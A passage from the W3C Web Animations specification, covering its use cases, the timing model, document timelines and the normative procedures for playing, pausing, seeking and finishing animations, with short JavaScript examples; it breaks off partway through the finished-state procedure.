The Web Animations model is intended to provide the features necessary for expressing CSS Transitions [CSS-TRANSITIONS-1], CSS Animations [CSS-ANIMATIONS-1], and SVG [SVG11]. As such, the use cases of the Web Animations model are the union of use cases for those three specifications.

The use cases for the Web Animations API include the following:

**Inspecting running animations**

: Often Web applications need to wait for certain animated effects to complete before updating some state. The Web Animations API allows such applications to wait for all currently running animation to complete, regardless of whether they are defined by CSS Transitions, CSS Animations, SVG animations, or created directly using the Web Animations API.

  > **Example:** ```
  > // Wait until all animations have finished before removing the element
  > Promise.all(
  >   elem.getAnimations().map(animation => animation.finished)
  > ).then(() => elem.remove());
  > ```

  Alternatively, applications can query the playback state of animations without waiting.

  > **Example:** ```
  > const isAnimating = elem.getAnimations().some(
  >   animation => animation.playState === 'running'
  > );
  > ```

**Controlling running animations**

: It is sometimes useful to perform playback control on animations so that they can respond to external inputs. For example, it might be necessary to pause all existing animations before displaying a modal dialog so that they do not distract the user’s attention.

  > **Example:** ```
  > // Pause all existing animations in the document
  > for (const animation of document.getAnimations()) {
  >   animation.pause()
  > }
  > ```

**Creating animations from script**

: While it is possible to use ECMAScript to perform animation using `requestAnimationFrame` [HTML], such animations behave differently to declarative animation in terms of how they are represented in the CSS cascade and the performance optimizations that are possible, such as performing the animation on a separate thread. Using the Web Animations API, it is possible to create animations from script that have the same behavior and performance characteristics as declarative animations.

  > **Example:** ```
  > // Fade out quickly
  > elem.animate({ transform: 'scale(0)', opacity: 0 }, 300);
  > ```

**Animation debugging**

: In a complex application, it can be difficult to determine how an element arrived in its present state. The Web Animations API can be used to inspect running animations to answer questions such as, “Why is the opacity of this element changing?”

  > **Example:** ```
  > // Print the id of any opacity animations on elem
  > for (const animation of elem.getAnimations()) {
  >   if (
  >     animation.effect instanceof KeyframeEffect &&
  >     animation.effect
  >       .getKeyframes()
  >       .some(frame => frame.hasOwnProperty('opacity'))
  >   ) {
  >     console.log(animation.id);
  >   }
  > }
  > ```

  Likewise, in order to fine tune animations, it is often necessary to reduce their playback rate and replay them.

  > **Example:** ```
  > // Slow down and replay any transform animations
  > const transformAnimations = elem.getAnimations().filter(
  >   animation =>
  >     animation.effect instanceof KeyframeEffect &&
  >     animation.effect.getKeyframes().some(
  >       frame => frame.hasOwnProperty('transform')
  >     )
  > );
  >
  > for (const animation of transformAnimations) {
  >   animation.currentTime = 0;
  >   animation.updatePlaybackRate(0.5);
  > }
  > ```

**Testing animations**

: In order to test applications that make use of animations it is often impractical to wait for such animations to run to completion. Rather, it is desirable to seek the animations to specific times.

  > **Example:** ```
  > // Seek to the half-way point of an animation and check that the opacity is 50%
  > for (const animation of elem.getAnimations()) {
  >   const { delay, activeDuration } = animation.effect.getComputedTiming();
  >   animation.currentTime = delay + activeDuration / 2;
  > }
  > assert.strictEqual(getComputedStyle(elem).opacity, '0.5');
  >
  > // Check that the loading screen is hidden after the animations finish
  > for (const animation of elem.getAnimations()) {
  >   animation.finish();
  > }
  > // Wait one frame so that event handlers have a chance to run
  > requestAnimationFrame(() => {
  >   assert.strictEqual(
  >     getComputedStyle(document.querySelector('#loading')).display, 'none');
  > });
  > ```

#### 1.2. Relationship to other specifications {#web-animations-1:relationship-to-other-specifications}

CSS Transitions [CSS-TRANSITIONS-1], CSS Animations [CSS-ANIMATIONS-1], and SVG [SVG11] all provide mechanisms that generate animated content on a Web page. Although the three specifications provide many similar features, they are described in different terms. This specification proposes an abstract animation model that encompasses the common features of all three specifications. This Web Animations model is backwards-compatible with the current behavior of these specifications such that they can be defined in terms of this model without any observable change.

The animation features in SVG 1.1 are defined in terms of SMIL Animation [SMIL-ANIMATION]. It is intended that by defining SVG’s animation features in terms of the Web Animations model, the dependency between SVG and SMIL Animation can be removed.

As with animation frame callbacks (commonly referred to as "requestAnimationFrame") [HTML], the Web Animations API allows animations to be created from script. The animations created using the Web Animations API, however, once created, are executed entirely by the user agent, meaning they share the same performance characteristics as animations defined declaratively. Using this interface it is possible to create animations from script in a simpler and more performant manner.

The time values used within the Web Animations API correspond with those used in animation frame callbacks [HTML] and their execution order is defined such that the two interfaces can be used simultaneously without conflict.

The Web Animations API component of this specification makes some additions to interfaces defined in HTML [HTML].

#### 1.3. Overview of this specification {#web-animations-1:overview-of-this-specification}

This specification begins by defining an abstract model for animation, the Web Animations model. This is followed by a programming interface, Web Animations API, defined in terms of the abstract model. The programming interface is only relevant to user agents that provide scripting support.

### 2. Specification conventions {#web-animations-1:spec-conventions}

This specification begins by describing abstract concepts—​such as animations and animation effects—​and properties that belong to them, such as their playback rate or iteration duration. In addition to these properties, there are often specific procedures for updating these properties, such as the procedure to set the playback rate or the procedure to set the start time of an animation.

Where this specification does not specifically link to a procedure, text that requires the user agent to update a property, such as “make *animation*’s start time unresolved”, should be understood to refer to updating the property directly *without* invoking any related procedure.

Further conventions not specific to this specification are described in [Document conventions](#web-animations-1:w3c-conventions).

### 3. Web Animations model overview {#web-animations-1:web-animations-model-overview}

At a glance, the Web Animations model consists of two largely independent pieces: a timing model and an animation model. The roles of these pieces are as follows:

****timing model****

: Takes a moment in time and converts it to a proportional distance within a single iteration of an animation, called the iteration progress. The current iteration index is also recorded since some animations vary each time they repeat. The Web Animations timing model is defined in [§ 4 Timing model](#web-animations-1:timing-model).

****animation model**.**

: Takes the iteration progress and iteration index values produced by the timing model and converts them into a series of corresponding values to apply to the target properties. The Web Animations animation model is defined in [§ 5 Animation model](#web-animations-1:animation-model).

*This section is non-normative*

Graphically, this flow can be represented as follows:


Overview of the operation of the Web Animations model.  The current time is input to the timing model which produces an iteration progress value and an iteration index.  These parameters are used as input to the animation model which produces the target property values to apply.

For example, consider an animation that:

- starts after 3 seconds,
- runs twice,
- takes 2 seconds every time, and
- changes the width of a rectangle from 50 pixels to 100 pixels.

The first three points describe the timing model: at a time of 6 seconds, it calculates that the animation should be half-way through its second iteration and produces the result 0.5. The animation model then uses that information to calculate a width.

This specification begins with the [timing model](#web-animations-1:timing-model) and then proceeds to the [animation model](#web-animations-1:animation-model).

### 4. Timing model {#web-animations-1:timing-model}

This section describes and defines the behavior of the **Web Animations timing model**.

Timing in the Web Animations model is represented through a hierarchy of relationships between **timing nodes**, in which parent nodes provide timing information to their child nodes in the form of time values, ultimately resulting in an iteration progress and iteration index supplied to the animations model

#### 4.1. Timing model characteristics {#web-animations-1:timing-model-overview}

*This section is non-normative*

Two features characterize the Web Animations timing model: it is *stateless* and it is *hierarchical*.

##### 4.1.1. Stateless {#web-animations-1:stateless}

The Web Animations timing model operates by taking an input time value and producing an output iteration progress. Since the output is based solely on the input time and is independent of previous inputs, the model can be described as stateless. This gives the model the following properties:

**Frame-rate independent**

: Since the output is independent of previous inputs, the rate at which the model is updated will not affect its progress. Provided the input times are proportional to the progress of real-world time, animations will progress at an identical rate regardless of the capabilities of the device running them.

**Direction-agnostic**

: Since the sequence of inputs is insignificant, the model is directionless. This means that the model can be updated to an arbitrary moment without requiring any specialized handling.

**Constant-time seeking**

: Since each input is independent of the previous input, the processing required to perform a seek operation, even far into the future, is at least potentially constant.

There are a few exceptions to the stateless behavior of the timing model.

Firstly, a number of methods defined in the [programming interface](#web-animations-1:programming-interface) to the model provide play control such as pausing an animation. These methods are defined in terms of the time at which they are called and are therefore stative. These methods are provided primarily for convenience and are not part of the core timing model, but are layered on top.

Similarly, the [finishing behavior](#web-animations-1:reaching-the-end) of animations means that dynamic changes to the end time of the media (associated effect) of an animation can produce a different result depending on when the change occurs. This behavior is somewhat unfortunate but has been deemed intuitive and consistent with HTML. As a result, the model can only truly be described as stateless *in the absence of dynamic changes to its timing properties*.

Finally, each time the model is updated, it can be considered to establish a temporary state. While this temporary state affects the values returned from the [programming interface](#web-animations-1:programming-interface), it has no influence on the subsequent updates and hence does not conflict with the stateless qualities described above.

##### 4.1.2. Hierarchical {#web-animations-1:hierarchical}

The other characteristic feature of the timing model is that time is inherited. Time begins at a timeline and cascades down a number of steps to each animation effect. At each step, time can be shifted backwards or forwards, scaled, reversed, paused, and repeated.


A hierarchy of timing nodes. Each node in the tree derives its time from its parent node.

In this level of the specification the hierarchy is shallow. A subsequent level of this specification will introduce the concept of group effects which allows for deeper timing hierarchies.

#### 4.2. Time values {#web-animations-1:time-value-section}

A **time value** in the Web Animations model is a value that serves the purpose of synchronization. Time values are real numbers that nominally represent a number of milliseconds from some moment. However, the connection between time values and wall-clock milliseconds can be obscured by any number of transformations applied to the value as it passes through the time hierarchy.

> **Note:** In the future there could be timelines that are based on scroll position or UI gestures in which case the connection between time values and milliseconds will be weakened even further.

A time value can be **unresolved**, i.e. represent the absence of a meaningful time value. This can happen if a timing node is not in a state to produce a time value.

#### 4.3. Timelines {#web-animations-1:timelines}

A **timeline** is a timing node that provides a source of time values. At any given moment, a timeline has a single current time value known simply as the timeline’s **current time**. Changes in a timeline’s current time are ultimately what drive animations in the Web Animations model.

A timeline might not always be able to return a meaningful time value, but only an unresolved time value. For example, its current time might be defined relative to a moment that has yet to occur, such as the firing of a document’s load event. A timeline is considered to be **inactive** when its time value is unresolved, and **active** otherwise.

A timeline is **monotonically increasing** if its reported current time is always greater than or equal to its previously reported current time.

Specific types of timelines may define a procedure to **convert a timeline time to an origin-relative time** for time value *time*, so that the time values produced by wallclock-based timelines can be compared.

A timeline can be **associated with a document**.

##### 4.3.1. Document timelines {#web-animations-1:document-timelines}

A **document timeline** is a type of timeline that is associated with a document and whose current time is calculated as a fixed offset from the *now* timestamp provided each time the update animations and send events procedure is run. This fixed offset is equal to the current time of the default document timeline when this timeline’s current time was zero, and is thus referred to as the document timeline’s **origin time**.

> **Issue:** There must be a better term than "origin time"— it’s too similar to "time origin". [[Issue #2079]](https://github.com/w3c/csswg-drafts/issues/2079)

Prior to establishing the time origin for its associated document, a document timeline is inactive.

After a document timeline becomes active, it is monotonically increasing.

A document timeline that is associated with a `Document` that is not an active document is also considered to be inactive.

To convert a timeline time, *timeline time*, to an origin-relative time for a document timeline, *timeline*, return the sum of the *timeline time* and *timeline*’s origin time. If *timeline* is inactive, return an unresolved time value.

###### 4.3.1.1. The default document timeline {#web-animations-1:the-documents-default-timeline}

Each `Document` has a document timeline called the **default document timeline**. The default document timeline is unique to each document and persists for the lifetime of the document, including calls to document.open() [HTML].

The default document timeline has an origin time of zero.

###### 4.3.1.2. Relationship to wall-clock time {#web-animations-1:document-wallclock-time}

*This section is non-normative*

Since no scaling is applied to the *now* timestamp values provided to a document timeline, the time values it produces will be proportional to wall-clock milliseconds.

Furthermore, since the time values of the default document timeline have a zero offset from the time origin, `document.timeline.currentTime` will roughly correspond to [`Performance.now()`](https://www.w3.org/TR/hr-time/#dom-performance-now) [HR-TIME] with the exception that `document.timeline.currentTime` does not change in between calls to the update animations and send events procedure.

#### 4.4. Animation Frames {#web-animations-1:animation-frame-loop}

When asked to **update animations and send events** for a `Document` *doc* at timestamp *now*, run these steps:

1. Update the current time of all timelines associated with *doc* passing *now* as the timestamp.

   > **Note:** Due to the hierarchical nature of the timing model, updating the current time of a timeline also involves:
   >
   > - Updating the current time of any animations associated with the timeline.
   > - Running the update an animation’s finished state procedure for any animations whose current time has been updated.
   > - Queueing animation events for any such animations.
2. Remove replaced animations for *doc*.
3. Perform a microtask checkpoint.

   > **Note:** This is to ensure that any microtasks queued up as a result of resolving or rejecting Promise objects as part of updating timelines in the previous step, run their callbacks prior to dispatching animation events.
4. Let *events to dispatch* be a copy of *doc*’s pending animation event queue.
5. Clear *doc*’s pending animation event queue.
6. Perform a stable sort of the animation events in *events to dispatch* as follows:

  1. Sort the events by their scheduled event time such that events that were scheduled to occur earlier sort before events scheduled to occur later, and events whose scheduled event time is unresolved sort before events with a resolved scheduled event time.
  2. Within events with equal scheduled event times, sort by their composite order.

     > **Note:** The purpose of sorting events is to ensure that, as best possible, even on devices with differing capabilities and hence different frame rates, events are dispatched in a consistent order.

     > **Note:** The requirement for the sort to be a stable sort is because sometimes multiple events can be queued with the same scheduled event time. For example, a CSS animation with a duration of zero would dispatch both an `animationstart` and an `animationend` event with the same scheuled event time, and the order of these events should be preserved.
7. Dispatch each of the events in *events to dispatch* at their corresponding target using the order established in the previous step.

It is often convenient to describe each time this procedure is invoked as establishing a new **animation frame**. Changes to the timing properties of animations or animation effects, or the addition and removal of the objects can cause the output of the timing or animation model to change, but these operations in themselves do not create a new animation frame; rather they merely update the current animation frame.

#### 4.5. Animations {#web-animations-1:animations}

An **animation** is a timing node that binds an animation effect child, called its **associated effect**, to a timeline parent so that it runs. Both of these associations are optional and configurable such that an animation can have no associated effect or timeline at a given moment.

Animations also allow run-time control of the connection between the animation effect and its timeline, through **playback control** functions such as [pausing](#web-animations-1:pausing-an-animation-section), [seeking](#web-animations-1:setting-the-current-time-of-an-animation), and [speed control](#web-animations-1:speed-control).

Time values flow from the timeline through the animation to the associated effect. The time value provided to an animation’s associated effect is called the animation’s **current time**.

> **Note:** The relationship between an animation and an animation effect is analogous to that of a DVD player and a DVD.

In addition to its timeline, associated effect, and current time an animation has the following:

****document for timing****

: The `Document` with which the animation’s timeline is associated. If an animation is not associated with a timeline, or its timeline is not associated with a document, then it has no document for timing.

****start time****

: The time value of its timeline when its associated effect is scheduled to begin playback. An animation’s start time is initially unresolved.

****hold time****

: A time value, which is used to freeze the animation’s current time output in circumstances such as pausing. The hold time is initially unresolved.

> **Note:** Together, the start time and hold time of an animation determine both its current time (see [§ 4.5.1 Calculating the current time of an animation](#web-animations-1:the-current-time-of-an-animation)) and its play state (see [§ 4.5.17 Play states](#web-animations-1:play-states)).

In order to establish the relative ordering of conflicting animations, animations are appended to a **global animation list** in the order in which they are created. Certain classes of animations, however, may provide alternative means of ordering animations (see [§ 5.4.1 Animation classes](#web-animations-1:animation-classes)).

##### 4.5.1. Calculating the current time of an animation {#web-animations-1:the-current-time-of-an-animation}

The current time of an animation is calculated from the first matching condition below:

**If the animation’s hold time is resolved,**

: The current time is the animation’s hold time.

**If *any* of the following are true:   the animation has no associated timeline, or  the associated timeline is inactive, or  the animation’s start time is unresolved,**

: The current time is an unresolved time value.

**Otherwise,**

: > `current time = (timeline time − start time) × playback rate`

  Where *timeline time* is the current time value of the associated timeline. The playback rate value is defined in [§ 4.5.15 Speed control](#web-animations-1:speed-control).

##### 4.5.2. Setting the timeline of an animation {#web-animations-1:setting-the-timeline}

The procedure to **set the timeline of an animation**, *animation*, to *new timeline* which may be null, is as follows:

1. Let *old timeline* be the current timeline of *animation*, if any.
2. If *new timeline* is the same object as *old timeline*, abort this procedure.
3. Let the timeline of *animation* be *new timeline*.
4. If the start time of *animation* is resolved, make *animation*’s hold time unresolved.

   > **Note:** This step ensures that the finished play state of *animation* is not “sticky”, but is re-evaluated based on its updated current time.
5. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

##### 4.5.3.  Setting the associated effect of an animation {#web-animations-1:setting-the-associated-effect}

The procedure to **set the associated effect of an animation**, *animation*, to *new effect* which may be null, is as follows:

1. Let *old effect* be the current associated effect of *animation*, if any.
2. If *new effect* is the same object as *old effect*, abort this procedure.
3. If *animation* has a pending pause task, reschedule that task to run as soon as *animation* is ready.
4. If *animation* has a pending play task, reschedule that task to run as soon as *animation* is ready to play *new effect*.
5. If *new effect* is not `null` and if *new effect* is the associated effect of another animation, *previous animation*, run the procedure to set the associated effect of an animation (this procedure) on *previous animation*, passing null as *new effect*.
6. Let the associated effect of *animation* be *new effect*.
7. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

##### 4.5.4. Setting the current time of an animation {#web-animations-1:setting-the-current-time-of-an-animation}

The current time of an animation can be set to a new value to **seek** the animation. The procedure for setting the current time is defined in two parts.

The procedure to **silently set the current time** of an animation, *animation*, to *seek time* is as follows:

1. If *seek time* is an unresolved time value, then perform the following steps.

  1. If the current time is resolved, then throw a TypeError.
  2. Abort these steps.
2. Update either *animation*’s hold time or start time as follows:

   **If *any* of the following conditions are true:   *animation*’s hold time is resolved, or  *animation*’s start time is unresolved, or  *animation* has no associated timeline or the associated timeline is inactive, or  *animation*’s playback rate is 0,**

   : Set *animation*’s hold time to *seek time*.

   **Otherwise,**

   : Set *animation*’s start time to the result of evaluating `timeline time − (seek time / playback rate)` where *timeline time* is the current time value of the timeline associated with *animation*.
3. If *animation* has no associated timeline or the associated timeline is inactive, make *animation*’s start time unresolved.

   > **Note:** This preserves the invariant that when we don’t have an active timeline it is only possible to set *either* the start time *or* the animation’s current time.
4. Make *animation*’s previous current time unresolved.

The procedure to **set the current time** of an animation, *animation*, to *seek time* is as follows:

1. Run the steps to silently set the current time of *animation* to *seek time*.
2. If *animation* has a pending pause task, synchronously complete the pause operation by performing the following steps:

  1. Set *animation*’s hold time to *seek time*.
  2. Apply any pending playback rate to *animation*.
  3. Make *animation*’s start time unresolved.
  4. Cancel the pending pause task.
  5. Resolve *animation*’s current ready promise with *animation*.
3. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to true, and the *synchronously notify* flag set to false.

##### 4.5.5. Setting the start time of an animation {#web-animations-1:setting-the-start-time-of-an-animation}

The procedure to **set the start time** of an animation, *animation*, to *new start time* is as follows:

1. Let *timeline time* be the current time value of the timeline that *animation* is associated with. If there is no timeline associated with *animation* or the associated timeline is inactive, let the *timeline time* be unresolved.
2. If *timeline time* is unresolved and *new start time* is resolved, make *animation*’s hold time unresolved.

   > **Note:** This preserves the invariant that when we don’t have an active timeline it is only possible to set *either* the start time *or* the animation’s current time.
3. Let *previous current time* be *animation*’s current time.

   > **Note:** This is the current time after applying the changes from the previous step, which can cause the current time to become unresolved.
4. Apply any pending playback rate on *animation*.
5. Set *animation*’s start time to *new start time*.
6. Update *animation*’s hold time based on the first matching condition from the following:

   **If *new start time* is resolved,**

   : If *animation*’s playback rate is not zero, make *animation*’s hold time unresolved.

   **Otherwise (*new start time* is unresolved),**

   : Set *animation*’s hold time to *previous current time* even if *previous current time* is unresolved.
7. If *animation* has a pending play task or a pending pause task, cancel that task and resolve *animation*’s current ready promise with *animation*.
8. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to true, and the *synchronously notify* flag set to false.

##### 4.5.6.  Waiting for the associated effect {#web-animations-1:waiting-for-the-associated-effect}

*This section is non-normative*

Some operations performed by an animation might not occur instantaneously. For example, some user agents might delegate the playback of an animation to a separate process or to specialized graphics hardware, each of which could incur some setup overhead.

If such an animation is timed from the moment when the animation was triggered there can be a significant jump between the first and second frames of the animation corresponding to the setup time involved.

To avoid this problem, Web Animations typically begins timing animations from the moment when the first frame of the animation is complete. This is represented by an unresolved start time on the animation which becomes resolved when the animation is ready. Content can opt out of this behavior by setting the start time to a resolved time value.

An animation is **ready** at the first moment where *both* of the following conditions are true:

- the user agent has completed any setup required to begin the playback of the animation’s associated effect, including rendering the first frame of any keyframe effect.
- the animation is associated with a timeline that is not inactive.

##### 4.5.7. The current ready promise {#web-animations-1:the-current-ready-promise}

Each animation has a **current ready promise**. The current ready promise is initially a resolved Promise created using the procedure to create a new resolved Promise with the animation itself as its value and created in the relevant Realm of the animation.

The object is replaced with a new Promise object every time the animation queues a pending play task or a pending pause task when it previously did not have a pending task, or when the animation is canceled (see [§ 4.5.14 Canceling an animation](#web-animations-1:canceling-an-animation-section)).

> **Note:** that since the same object is used for both pending play and pending pause requests, authors are advised to check the state of the animation when the Promise object is resolved.
>
> For example, in the following code fragment, the state of the animation will be running when the current ready promise is resolved. This is because the `play` operation occurs while a pending play task is still queued and hence the current ready promise is re-used.
>
> > **Example:** ```
> > animation.pause();
> > animation.ready.then(function() {
> >   // Displays 'running'
> >   alert(animation.playState);
> > });
> > animation.play();
> > ```

##### 4.5.8. Playing an animation {#web-animations-1:playing-an-animation-section}

The procedure to **play an animation**, *animation*, given a flag *auto-rewind*, is as follows:

1. Let *aborted pause* be a boolean flag that is true if *animation* has a pending pause task, and false otherwise.
2. Let *has pending ready promise* be a boolean flag that is initially false.
3. Let *seek time* be a time value that is initially unresolved.
4. If the *auto-rewind* flag is true, perform the steps corresponding to the *first* matching condition from the following, if any:

   **If *animation*’s effective playback rate ≥ 0, and *animation*’s current time is *either*:   unresolved, or  less than zero, or  greater than or equal to associated effect end,**

   : Set *seek time* to zero.

   **If *animation*’s effective playback rate < 0, and *animation*’s current time is *either*:   unresolved, or  less than or equal to zero, or  greater than associated effect end,**

   : **If associated effect end is positive infinity,**

  : throw an "`InvalidStateError`" `DOMException` and abort these steps.

  **Otherwise,**

  : Set *seek time* to *animation*’s associated effect end.
5. If the following three conditions are *all* satisfied:

  - *seek time* is unresolved, and
  - *animation*’s start time is unresolved, and
  - *animation*’s current time is unresolved,

   set *seek time* to zero.

   > **Note:** The above step ensures that this procedure will play an idle animation regardless of the setting of the *auto-rewind* flag.
6. Let *has finite timeline* be true if *animation* has an associated timeline that is not monotonically increasing.
7. If *seek time* is resolved,

   **If *has finite timeline* is true,**

   : 1. Set *animation*’s start time to *seek time*.
  2. Let *animation*’s hold time be unresolved.
  3. Apply any pending playback rate on *animation*.

   **Otherwise,**

   : Set *animation*’s hold time to *seek time*.
8. If *animation*’s hold time is resolved, let its start time be unresolved.
9. If *animation* has a pending play task or a pending pause task,

  1. Cancel that task.
  2. Set *has pending ready promise* to true.
10. If the following four conditions are *all* satisfied:

  - *animation*’s hold time is unresolved, and
  - *seek time* is unresolved, and
  - *aborted pause* is false, and
  - *animation* does *not* have a pending playback rate,

   abort this procedure.
11. If *has pending ready promise* is false, let *animation*’s current ready promise be a new promise in the relevant Realm of *animation*.
12. Schedule a task to run as soon as *animation* is ready. The task shall perform the following steps:

  1. Assert that at least one of *animation*’s start time or hold time is resolved.
  2. Let *ready time* be the time value of the timeline associated with *animation* at the moment when *animation* became ready.
  3. Perform the steps corresponding to the first matching condition below, if any:

     **If *animation*’s hold time is resolved,**

     : 1. Apply any pending playback rate on *animation*.
  2. Let *new start time* be the result of evaluating `ready time − hold time / playback rate` for *animation*. If the playback rate is zero, let *new start time* be simply *ready time*.
  3. Set the start time of *animation* to *new start time*.
  4. If *animation*’s playback rate is not 0, make *animation*’s hold time unresolved.

     **If *animation*’s start time is resolved and *animation* has a pending playback rate,**

     : 1. Let *current time to match* be the result of evaluating `(ready time − start time) × playback rate` for *animation*.
  2. Apply any pending playback rate on *animation*.
  3. If *animation*’s playback rate is zero, let *animation*’s hold time be *current time to match*.
  4. Let *new start time* be the result of evaluating `ready time − current time to match / playback rate` for *animation*. If the playback rate is zero, let *new start time* be simply *ready time*.
  5. Set the start time of *animation* to *new start time*.
  4. Resolve *animation*’s current ready promise with *animation*.
  5. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

     > **Note:** The order of the above two steps is important since it means that an animation with zero-length associated effect will resolve its current ready promise before its current finished promise.

   So long as the above task is scheduled but has yet to run, *animation* is described as having a **pending play task**. While the task is running, however, *animation* does *not* have a pending play task.

   If a user agent determines that *animation* is immediately ready, it may schedule the above task as a microtask such that it runs at the next microtask checkpoint, but it *must not* perform the task synchronously.

   > **Note:** The above requirement to run the pending play task asynchronously ensures that code such as the following behaves consistently between implementations:
   >
   > > **Example:** ```
   > > animation.play();
   > > animation.ready.then(
   > >   () => { console.log('Playback commenced'); },
   > >   () => { console.log('Playback was canceled'); }
   > > );
   > > // Suppose some condition requires playback to be canceled...
   > > animation.cancel();
   > > // "Playback was canceled" will be printed to the console.
   > > ```
   >
   > In the above code, were the pending play task run synchronously, the current ready promise would not be rejected.
13. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

##### 4.5.9. Pausing an animation {#web-animations-1:pausing-an-animation-section}

Whenever an animation has an unresolved start time, its current time will be suspended.

As with playing an animation, pausing might not happen instantaneously (see [§ 4.5.6 Waiting for the associated effect](#web-animations-1:waiting-for-the-associated-effect)). For example, if animation is performed by a separate process, it might be necessary to synchronize the current time to ensure that it reflects the state drawn by the animation process.

The procedure to **pause an animation**, *animation*, is as follows:

1. If *animation* has a pending pause task, abort these steps.
2. If the play state of *animation* is paused, abort these steps.
3. Let *seek time* be a time value that is initially unresolved.
4. Let *has finite timeline* be true if *animation* has an associated timeline that is not monotonically increasing.
5. If the *animation*’s current time is unresolved, perform the steps according to the first matching condition below:

   **If *animation*’s playback rate is ≥ 0,**

   : Set *seek time* to zero.

   **Otherwise,**

   : **If associated effect end for *animation* is positive infinity,**

  : throw an "`InvalidStateError`" `DOMException` and abort these steps.

  **Otherwise,**

  : Set *seek time* to *animation*’s associated effect end.
6. If *seek time* is resolved,

   **If *has finite timeline* is true,**

   : Set *animation*’s start time to *seek time*.

   **Otherwise,**

   : Set *animation*’s hold time to *seek time*.
7. Let *has pending ready promise* be a boolean flag that is initially false.
8. If *animation* has a pending play task, cancel that task and let *has pending ready promise* be true.
9. If *has pending ready promise* is false, set *animation*’s current ready promise to a new promise in the relevant Realm of *animation*.
10. Schedule a task to be executed at the first possible moment where *both* of the following conditions are true:

  - the user agent has performed any processing necessary to suspend the playback of *animation*’s associated effect, if any.
  - the animation is associated with a timeline that is not inactive.

   The task shall perform the following steps:

  1. Let *ready time* be the time value of the timeline associated with *animation* at the moment when the user agent completed processing necessary to suspend playback of *animation*’s associated effect.
  2. If *animation*’s start time is resolved and its hold time is *not* resolved, let *animation*’s hold time be the result of evaluating `(ready time − start time) × playback rate`.

     > **Note:** The hold time might be already set if the animation is finished, or if the animation has a pending play task. In either case we want to preserve the hold time as we enter the paused state.
  3. Apply any pending playback rate on *animation*.
  4. Make *animation*’s start time unresolved.
  5. Resolve *animation*’s current ready promise with *animation*.
  6. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

   So long as the above task is scheduled but has yet to run, *animation* is described as having a **pending pause task**. While the task is running, however, *animation* does *not* have a pending pause task.

   As with the pending play task, the user agent must run the pending pause task asynchronously, although that could be as soon as the next microtask checkpoint.
11. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

##### 4.5.10. Reaching the end {#web-animations-1:reaching-the-end}

*This section is non-normative*

DVD players or cassette players typically continue playing until they reach the end of their media at which point they stop. If such players are able to play in reverse, they typically stop playing when they reach the beginning of their media. In order to emulate this behavior, and to provide consistency with HTML’s media elements [HTML], the current time of Web Animations' animations do not play forwards beyond the end time of their associated effect or play backwards past time zero.

An animation that has reached the natural boundary of its playback range is said to have *finished*.

Graphically, the effect of limiting the current time is shown below.


The effect of limiting the current time of an animation with a start time of 1s, an associated effect of length 3s, and a positive playback rate. After the current time of the animation reaches the end of the associated effect, it is capped at 3s.

It is possible, however, to seek the current time of an animation to a time past the end of the associated effect. When doing so, the current time will not progress but the animation will act as if it had been paused at the seeked time.

This allows, for example, seeking the current time of an animation with *no* associated effect to 5s. If associated effect with an end time later than 5s is later associated with the animation, playback will begin from the 5s mark.

Similar behavior to the above scenario can arise when the length of an animation’s associated effect changes.

Similarly, when the playback rate is negative, the current time does not progress past time zero.

##### 4.5.11. The current finished promise {#web-animations-1:the-current-finished-promise}

Each animation has a **current finished promise**. The current finished promise is initially a pending Promise object.

The object is replaced with a new promise every time the animation leaves the finished play state.

##### 4.5.12. Updating the finished state {#web-animations-1:updating-the-finished-state}

For an animation with a positive playback rate, the current time continues to increase until it reaches the associated effect end.

The **associated effect end** of an animation is equal to the end time of the animation’s associated effect. If the animation has no associated effect, the associated effect end is zero.

For an animation with a negative playback rate, the current time continues to decrease until it reaches zero.

A running animation that has reached this boundary (or overshot it) and has a resolved start time is said to be finished.

The crossing of this boundary is checked on each modification to the animation object or the timing properties of its associated effect using the procedure to update an animation’s finished state defined below. This procedure is also run as part of the update animations and send events procedure. Unless otherwise specified, the *did seek* and *synchronously notify* flags, defined below, are set to false.

For each animation, the user agent maintains a **previous current time** time value that is originally unresolved.

Whilst during normal playback the current time of an animation is limited to the boundaries described above, it is possible to seek the current time of an animation to times outside those boundaries using the procedure to set the current time of an animation.

The procedure to **update an animation’s finished state** for *animation*, given a flag *did seek* (to indicate if the update is being performed after setting the current time), and a flag *synchronously notify* (to indicate the update was called in a context where we expect finished event queueing and finished promise resolution to happen immediately, if at all) is as follows:

1. Let the *unconstrained current time* be the result of calculating the current time, substituting an unresolved time value for the hold time if *did seek* is false. If *did seek* is true, the *unconstrained current time* is equal to the current time.

   > **Note:** This is required to accommodate timelines that can change direction. Without this definition, a once-finished animation would remain finished even when its timeline progresses in the opposite direction.
2. If *all three* of the following conditions are true,

  - the *unconstrained current time* is resolved, *and*
  - *animation*’s start time is resolved, *and*
  - *animation* does *not* have a pending play task or a pending pause task,

   then update *animation*’s hold time based on the first matching condition for *animation* from below, if any:

   **If playback rate > 0 and *unconstrained current time* is greater than or equal to associated effect end,**

   : If *did seek* is true, let the hold time be the value of *unconstrained current time*.

  If *did seek* is false, let the hold time be the maximum value of previous current time and associated effect end. If the previous current time is unresolved, let the hold time be associated effect end.

   **If playback rate < 0 and *unconstrained current time* is less than or equal to 0,**

   : If *did seek* is true, let the hold time be the value of *unconstrained current time*.

  If *did seek* is false, let the hold time be the minimum value of previous current time and zero. If the previous current time is unresolved, let the hold time be zero.

   **If playback rate ≠ 0, and *animation* is associated with an active timeline,**

   : Perform the following steps:

  1. If *did seek* is true and the hold time is resolved, let *animation*’s start time be equal to the result of evaluating `timeline time − (hold time / playback rate)` where *timeline time* is the current time value of the timeline associated with *animation*.
  2. Let the hold time be unresolved.
3. Set the previous current time of *animation* to be the result of calculating its current time.
4. Let *current finished state* be true if the play state of *animation* is finished. Otherwise, let it be false.
5. If *current finished state* is true and the current finished promise is not yet resolved, perform the following steps:

  1. Let **finish notification steps** refer to the following procedure:

    1. If *animation*’s play state is not equal to finished, abort these steps.
